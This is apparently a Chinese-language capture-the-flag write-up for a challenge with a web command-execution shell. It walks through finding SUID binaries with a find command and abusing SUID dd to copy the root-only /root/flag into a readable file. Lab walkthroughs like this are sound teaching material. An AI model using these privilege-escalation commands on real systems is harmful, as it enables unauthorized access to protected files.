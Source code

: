 #### 题目描述

***我爱的人，我要能够占领他整个生命，他在碰见我之前，没有过去，留着空白等待我。***

要如何才能成为她的唯一？

`hint1` : flag 在`/root`中。
`hint2` : 。

#### 解题思路

打开网页，发现是个命令执行，直接就可以输入命令，根据提示，输入命令 `ls /root`，可以看到里面就有 flag 文件：

![image-20250116173143450](BestiCTF S1 Week15.assets/image-20250116173143450.png)

执行`cat /root/flag`，发现没有结果，怀疑是权限问题，输入命令 `ls -l /root`，发现flag需要 root 权限才能读：

![image-20250116173311287](BestiCTF S1 Week15.assets/image-20250116173311287.png)

猜测需要提权，[linux提权方法（不断更新） - BlogZhang - 博客园](https://www.cnblogs.com/bilei/p/16140186.html)，使用 suid 提权，输入命令 `find / -perm -u=s -type f 2>/dev/null`，结果如下：

```
/bin/date
/bin/dd
/bin/umount
/bin/mount
/bin/ls
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
# 类似于这些程序自带root权限
```

其中 date 和 dd 可以利用。

##### dd

dd 是 device driver 单词的缩写，主要用于读取内容并进行完整复制。使用方法：

```shell
dd if=源文件 of=目标文件
```

我们可以将flag的内容复制到不需要 root 权限的文件中，命令如下：

```shell
dd if=/root/flag of=/flag

cat /flag
```

即可得到 flag：

![image-20250116174059713](BestiCTF S1 Week15.assets/image-20250116174059713.png)

